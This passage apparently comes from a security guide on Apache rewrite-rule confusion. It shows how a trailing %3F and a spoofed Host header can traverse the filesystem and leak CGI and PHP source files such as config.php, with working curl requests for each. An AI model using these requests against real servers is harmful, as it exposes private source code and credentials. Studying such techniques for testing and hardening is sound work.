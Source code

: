 ```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```

A fun fact about Apache is that the previous rewrite will try to access the file from both the documentRoot and from root. So, a request to `https://server/abouth.html` will check for the file in `/var/www/html/about.html` and `/about.html` in the file system. Which basically can be abused to access files in the file system.

#### **Server-Side Source Code Disclosure**

* **Disclose CGI Source Code**

Just adding a %3F at the end is enough to leak the source code of a cgi module:

```bash
curl http://server/cgi-bin/download.cgi
 # the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
 # #!/usr/bin/perl
 # use CGI;
 # ...
 # # the source code of download.cgi
```

* **Disclose PHP Source Code**

If a server has different domains with one of them being a static domain, this can be abused to traverse the file system and leak php code:

```bash
# Leak the config.php file of the www.local domain from the static.local domain
curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
 # the source code of config.php
```

#### **Local Gadgets Manipulation**

The main problem with the previous attack is that by default most access over the filesystem will be denied as in Apache HTTP Server’s [configuration template](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115):

```xml
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

However, [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165) operating systems by default allow `/usr/share`:

```xml
<Directory /usr/share>
    AllowOverride None
    Require all granted
</Directory>
```
